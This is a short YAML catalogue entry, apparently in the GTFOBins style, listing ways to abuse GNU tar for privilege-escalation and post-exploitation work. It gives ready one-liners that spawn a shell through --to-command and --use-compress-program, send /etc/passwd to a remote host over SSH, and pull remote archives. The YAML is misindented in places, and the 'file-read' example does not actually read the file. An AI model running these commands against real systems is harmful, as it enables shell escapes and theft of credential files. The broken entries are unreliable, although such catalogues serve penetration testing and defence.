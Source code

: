 ```yaml
---
functions:
  shell:
    - description: The --to-command is normally used to pipe extracted files to a command. This can be used to run arbitrary commands on a host. The file must be a valid archive file.
     code: |
        tar xf /tmp/valid.tar --to-command='/bin/sh -c "sh <&2 1>&2"'
    - description: Similar to the above, but at a previous stage in the extraction. A valid archive is not required. This functionality can be abused in various ways for file-read and file-write (see below).
      code: |
        tar xf /dev/null --use-compress-program='/bin/sh -c "sh <&2 1>&2"'
  file-upload:
    - description: This only works for GNU tar. Create tar archive and send it via SSH to a remote location. The attacker box must have the `rmt` utility installed (it should be present by default in Debian-like distributions).
      code: |
        tar cvf remote_user@remote_host.com:/tmp/remote_file.tar /etc/passwd --rsh-command=/bin/ssh
  file-download:
    - description: GNU tar has remote archive capabilities, which can be used to download and extract remote archives. The remote machine should have the `rmt` utility installed and configured.
      code: | tar xvf remote_user@remote_host.com:/tmp/remote_file --rsh-command=/bin/ssh
  file-read:
    - description: The --use-compress-program flag can be abused to read files.
      code: |
        tar xf /etc/passwd --use-compress-program='/bin/sh -c "echo hello > /tmp/file"'
---
```

